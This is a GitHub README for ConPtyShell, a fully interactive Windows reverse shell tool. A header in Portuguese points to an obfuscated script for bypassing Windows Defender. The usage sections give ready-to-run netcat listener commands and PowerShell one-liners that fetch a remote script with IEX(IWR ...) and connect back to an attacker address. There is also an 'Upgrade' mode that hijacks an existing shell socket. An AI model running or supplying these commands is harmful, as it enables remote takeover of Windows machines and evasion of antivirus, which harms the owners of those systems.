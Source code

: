 # Update 20 de Novembro de 2023
Para bypass do Windows Defender utilize o arquivo RevShellOfuscado.ps1.<br>
Testado no Windows 10 e Windows 11 rodando a última atualização<br>
Código ofuscado usando o PyFuscation (https://github.com/HackThePlanetBR/PyFuscation)
<br>
<hr>
<br>

# ConPtyShell
ConPtyShell is a Fully Interactive Reverse Shell for Windows systems.

The introduction of the Pseudo Console (ConPty) in Windows has improved so much the way Windows handles terminals.
ConPtyShell uses this feature to literally transform your bash in a remote powershell.

<p>Briefly, it creates a Pseudo Console and attaches 2 pipes.<br>
Then it creates the shell process (default powershell.exe) attaching the Pseudo Console with redirected input/output.<br>
Then starts 2 Threads for Async I/O:<br>
- one thread for reading from the socket and writing to Pseudo Console input pipe;<br>
- the second thread for reading from the Pseudo Console output pipe and writing to the socket.</p>

ConPtyShell has also the magic flag "Upgrade" that transform your current shell in a fully interactive one, use it if you don't want to use a new connection and want to hijack your current shell socket :)

If you want to know further information regarding ConPty you can find a great article [1] in the references section.

**NOTE: ConPtyShell uses the function <a href="https://docs.microsoft.com/en-us/windows/console/createpseudoconsole">CreatePseudoConsole()</a>. This function is available since Windows 10 / Windows Server 2019 version 1809 (build 10.0.17763).**

**NOTE2: If the ConPTY is not available on the target system you will get a normal netcat-like interactive shell.**

## Requirements
<p>Client Side: Windows version >= 10 / 2019 1809 (build >= 10.0.17763)</p>
<p>Server Side: any tcp listener, i.e. netcat</p>

## Usage

It's important to have the same rows and cols size between your terminal and the remote terminal if you want to have an aligned output on the shell.

#### Method 1
In this method the terminal size is set without you pass the rows and cols parameters to Invoke-ConPtyShell function:

##### Server Side:
```
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

##### Client Side:

```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```

#### Method 2
If you prefer to have more freedom on the tcp listener and your terminal you can proceed with a "Manual" way to get the reverse shell. In this case it's important that you set rows and cols size when calling the Invoke-ConPtyShell function:

##### Server Side:
```
stty size
nc -lvnp 3001
Wait For connection
ctrl+z
stty raw -echo; fg[ENTER]
```
##### Client Side:
Here you should use the values read from ```stty size``` command in the Parameters -Rows and -Cols
```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell -RemoteIp 10.0.0.2 -RemotePort 3001 -Rows 24 -Cols 80
```

#### Method 3 - Upgrade
You can also upgrade your current shell to a fully interecative shell. In this case it's important that you set rows and cols size when calling the Invoke-ConPtyShell function:

##### Server Side:
```
stty size
nc -lvnp 3001
Wait For connection
ctrl+z
stty raw -echo; fg[ENTER]
```
##### Client Side:
Here you should use the values read from ```stty size``` command in the Parameters -Rows and -Cols

```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell -Upgrade -Rows 24 -Cols 80
```

## Change Console Size

In any case if you resize your terminal while you have already open the remote shell you can change the rows and cols size directly from powershell pasting the following code:

```
$width=80
$height=24
$Host.UI.RawUI.BufferSize = New-Object Management.Automation.Host.Size ($width, $height)
$Host.UI.RawUI.WindowSize = New-Object -TypeName System.Management.Automation.Host.Size -ArgumentList ($width, $height)
```

## Demo
Below you can watch 2 demos. The first gif using the **Method 1** with the compiled assemlby in exe format, the second gif is showing the **Method 3** by upgrading your current shell with the ps1 script:

#### Method 1

<img src="demo_1.gif">

#### Method 3 - Upgrade demo

<img src="demo_2.gif">

## References

1. https://devblogs.microsoft.com/commandline/windows-command-line-introducing-the-windows-pseudo-console-conpty/
2. https://github.com/microsoft/terminal
3. https://www.usenix.org/conference/usenixsecurity20/presentation/niakanlahiji
4. https://adepts.of0x.cc/shadowmove-hijack-socket/

## Credits

- LupMan
